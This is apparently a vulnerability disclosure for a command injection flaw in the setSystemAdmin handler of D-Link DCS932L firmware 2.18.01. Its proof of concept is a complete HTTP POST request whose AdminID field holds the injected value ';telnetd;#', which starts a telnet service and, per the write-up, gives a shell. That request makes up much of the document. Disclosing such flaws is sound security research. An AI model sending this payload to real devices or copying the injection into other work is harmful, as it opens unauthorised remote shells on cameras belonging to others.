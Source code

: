 # D-Link Vulnerability

Vendor:D-Link

Product:DCS932L

Version:2.18.01

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology router with firmware which was released recently，allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `alphapd` binary:

In `setSystemAdmin` function, `AdminID` is directly passed by the attacker, so we can control the `AdminID` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>



## PoC

We set `AdminID` as **';telnetd;#** , and the router will excute it,such as:

```http
POST /setSystemAdmin HTTP/1.1
Host: 192.168.1.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 336
Origin: http://192.168.1.2
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.2/advanced.htm
Upgrade-Insecure-Requests: 1

ReplySuccessPage=advanced.htm&ReplyErrorPage=errradv.htm&AdminID=';telnetd;#&UserID1=&UserID2=&UserID3=&UserID4=&UserID5=&UserID6=&UserID7=&UserID8=&AdminPassword=530463636a12636a07636a1863530563c7046363051263c70763961863180563c7046363051263c70763961863180563c7046363051263c70763961863180563&SessionKey=1451606489&ConfigSystemAdmin=Save
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

